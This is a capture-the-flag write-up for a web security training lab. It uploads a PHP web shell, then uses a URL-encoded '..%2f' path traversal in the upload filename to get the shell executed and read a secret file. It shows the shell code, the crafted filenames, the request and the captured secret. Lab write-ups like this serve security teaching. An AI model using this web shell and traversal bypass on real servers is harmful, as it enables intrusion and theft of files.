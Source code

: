 
### Web shell upload via path traversal : PRACTITIONER

---

> We need to read contents of the `/home/carlos/secret` file. Given login credentials `wiener:peter`.

Logging in as wiener.

![](./screenshots/lab1-login.png)

We see this my-account page.

![](./screenshots/lab1-account.png)


We upload the script to fetch the contents of the required directory.
``` PHP
<?php echo file_get_contents('/<path>'); ?>
```
- File is called `shell.php`.

> Notice the `POST` request that is sent when we upload the file.

![](./screenshots/lab3-post.png)

> It works fine, and there are no errors. 

If we navigate to the directory where the file is uploaded by checking the `GET` request that is sent when we go to the my-account page.
- We see that the script contents are displayed normally in plain text.

![](./screenshots/lab3-get.png)

> Therefore, the directory we uploaded the script in doesn't execute it. Trying to go back one directory up using the `../` traversal sequence to try and upload in a different directory.

To do that, head to the `POST` request and change the `filename` parameter.
```
filename="../shell.php"
```

![](./screenshots/lab3-traverse.png)

We see that in the response, we have uploaded a file to `avatars/shell.php`.
- This is the same directory we placed into the first time.
- This means that the sequence `../` is being sanitized.

Trying to encode the sequence and trying the same technique again.
```
filename="..%2fshell.php"
```

![](./screenshots/lab3-traverse-1.png)

> The response shows that we uploaded a file to `avatars/../shell.php` which means we went up one directory.

Trying to modify the `GET` request above and change the path.
```
GET /files/avatars/../shell.php
```

![](./screenshots/lab3-final.png)

> We see that the script is executed. Copying the secret and submitting it to complete the lab.

```
TGD3nGwWohTHEvbxCPJC15HH7sJ4QOzG
```

---
